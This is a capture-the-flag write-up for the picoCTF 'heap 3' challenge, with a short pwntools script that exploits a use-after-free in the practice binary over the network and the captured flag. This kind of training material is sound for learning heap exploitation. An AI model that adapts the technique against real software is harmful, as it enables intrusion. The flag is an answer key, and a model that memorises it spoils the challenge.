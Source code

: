 # heap 3

Author: Abrxs

This program mishandles memory. Can you exploit it to get the flag? Download the binary [here](chall). Download the source [here](chall.c). Connect with the challenge instance here: `nc tethys.picoctf.net 50345`

## Solution

```python
from pwn import *

context.binary = elf = ELF("./chall", checksec=False)
#io = elf.process()
io = remote("tethys.picoctf.net", 50049)
#context.log_level = "debug"

io.sendlineafter(b": ", b"5")
io.sendlineafter(b": ", b"2")
io.sendlineafter(b": ", b"32")
io.sendlineafter(b": ", b"A" * 30 + b'pico')
io.sendlineafter(b": ", b"4")

io.recvuntil(b"YOU WIN!!11!!\n")
flag = io.recvline().strip()
log.success(flag.decode())

io.close()
```

**Flag:** `picoCTF{now_thats_free_real_estate_e8938a97}`
